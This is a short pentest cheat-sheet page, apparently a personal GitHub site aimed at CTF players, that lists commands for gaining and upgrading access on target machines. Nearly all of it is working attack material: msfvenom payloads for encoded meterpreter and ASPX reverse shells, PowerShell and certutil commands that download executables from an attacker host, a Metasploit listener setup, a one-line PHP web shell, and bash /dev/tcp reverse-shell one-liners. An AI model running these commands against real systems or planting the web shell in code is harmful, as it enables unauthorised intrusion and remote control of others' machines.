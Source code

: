 ## Pentest make easy

The purspose of this site is to make the Penetration testing and Privilege escation make easy. There are several exploits and various writeup avilable. But when it is needed its very difficult to find out the exact exploit and the writeup.

In this site I am attempting to collect most of the common exploits that appear in CTF and other exinvornments.

### [SQL Injection](https://dayaramb.github.io/resources/)

### [Getting Revese shell](https://github.com/dayaramb/dayaramb.github.io/tree/master/reverse_shells/README.md)

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
For aspx Reverse shell:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.14.242 LPORT=443 -f aspx -o rev.aspx

```

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Once this is running, enter this command to start the reverse shell

```bash
Start-Process "shell-name.exe"
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```
### Windows Copy command
```bash 
certutil.exe -urlcache -split -f http://10.10.14.8/winPEAS-x64.exe winPEAS-x64.exe
```
### Download using powershell:
```
powershell -c "Invoke-WebRequest -Uri URL -OutFile FILENAME"
```

### PHP System Command:
```php
<?php echo(system($_GET["cmd"])); ?>
```
### Reverse shells One liner:

### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```
